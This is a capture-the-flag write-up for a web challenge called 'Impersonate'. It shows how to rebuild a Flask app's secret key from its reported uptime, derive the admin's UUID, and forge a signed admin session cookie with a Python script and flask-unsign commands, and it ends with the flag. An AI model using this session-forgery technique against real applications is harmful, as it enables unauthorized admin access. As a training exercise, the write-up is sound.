 # Impersonate (Medium)
One may not be the one they claim to be.

http://chal.competitivecyber.club:9999/

## Data
* [app.py](https://pctf.competitivecyber.club/files/d5927c5731503b610ddc8e4410507f2b/app.py?token=eyJ1c2VyX2lkIjo0NDE3LCJ0ZWFtX2lkIjoxNzk2LCJmaWxlX2lkIjo2OX0.ZvhKyw.uLXpTZhZFXYwWcXF-Yo6fvWEOgk)

## Solution
The website shows an interface to login:

![Login](../images/Impersonate_0.png)

If we do so, we are welcomed as guest and are informed that only the admin can see the flag:

![Guest](../images/Impersonate_1.png)

If we try to log in as admin, we get an error message:

![Admin error](../images/Impersonate_2.png)

Looking into the HTTP traffic, we can see that a session token is generated for our user:
```
Set-Cookie: session=eyJ1aWQiOiJmNTRlMzJiNi1kMzhjLTUyZmUtYTVmNi0yMmQ2MTFhYzdhMzIiLCJ1c2VybmFtZSI6InRlc3QifQ.ZvhL3A.e6H_pqssLwwzpsKw-oP-E2-Qhy0
```

On the first look, it looks like a JWT, but it isn't:

![JWT](../images/Impersonate_3.png)

The data in the header section should in the payload in the JWT standard. And also the payload isn't readable at all. So it's not a JWT format. 

According to this [article](https://medium.com/@s12deff/hacking-flask-session-cookie-8e7abe7217a8) it's a flask session cookie. Similar to JWT, but not the same. But we need a secret as well. [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask) has also some information about this topic.

If we take a look into the source code of the web application, we can see that the cookie has a `is_admin` field that can be set:
```python
def admin_page():
    """Display the admin page if the user is an admin."""
    if session.get('is_admin') and uuid.uuid5(secret, 'administrator') and session.get('username') == 'administrator':
        return flag
    else:
        abort(401)
```

So probably we can manipulate our token with that field and get access to the admin site. But we need the secret to sign the token.

The secret is generated here:
```python
server_start_str = server_start_time.strftime('%Y%m%d%H%M%S')
secure_key = hashlib.sha256(f'secret_key_{server_start_str}'.encode()).hexdigest()
app.secret_key = secure_key
```

We need the starting time of the server. Luckily that information can be calculated from `/status`:
```
┌──(kali㉿kali)-[~]
└─$ curl http://chal.competitivecyber.club:9999/status                                   
Server uptime: 0:08:05<br>
    Server time: 2024-09-28 19:08:20

┌──(kali㉿kali)-[~]
└─$ 
```

We also have the secret ID to generate the UID of the user (which is also part of the token):
```python
secret = uuid.UUID('31333337-1337-1337-1337-133713371337')
```

Putting things together, leads to the following [script](./generate.py) to generate the secrets:
```python
import requests
from datetime import datetime, timedelta
import hashlib
import uuid

# secret
server_time = datetime(2024, 9, 28, 19, 42, 48)
uptime = timedelta(minutes=2, seconds=34)
server_start_time = server_time - uptime
server_start_str = server_start_time.strftime('%Y%m%d%H%M%S')
secure_key = hashlib.sha256(f'secret_key_{server_start_str}'.encode()).hexdigest()
print(f'secret:\t{secure_key}')

# uid
username = 'administrator'
secret = uuid.UUID('31333337-1337-1337-1337-133713371337')
uid = str(uuid.uuid5(secret, username))
print(f'uid:\t{uid}')

# token
print("token:\t{" + f"'is_admin': True, 'uid': '{uid}', 'username': '{username}'" + "}")
```
```
$ python generate.py
secret: fdf496eedf6a855f94c3097f55ed4b1ce9a00468d1d489674f08d6e5167a025d
uid:    02ec19dc-bb01-5942-a640-7099cda78081
token:  {'is_admin': True, 'uid': '02ec19dc-bb01-5942-a640-7099cda78081', 'username': 'administrator'}
$ 
```

To sign the token, we can use `flask-unsign`:
```
┌──(kali㉿kali)-[~]
└─$ flask-unsign --sign --cookie "{'is_admin': True, 'uid': '02ec19dc-bb01-5942-a640-7099cda78081', 'username': 'administrator'}" --secret 'fdf496eedf6a855f94c3097f55ed4b1ce9a00468d1d489674f08d6e5167a025d'
eyJpc19hZG1pbiI6dHJ1ZSwidWlkIjoiMDJlYzE5ZGMtYmIwMS01OTQyLWE2NDAtNzA5OWNkYTc4MDgxIiwidXNlcm5hbWUiOiJhZG1pbmlzdHJhdG9yIn0.Zvhb6A.py1SHdISxVVsijx6aEqo_MjWG7E

┌──(kali㉿kali)-[~]
└─$ 
```

The last step is to request `/admin` with the token to get the flag:

![Flag](../images/Impersonate_4.png)

The flag is: `PCTF{Imp3rs0n4t10n_Iz_Sup3r_Ezz}`
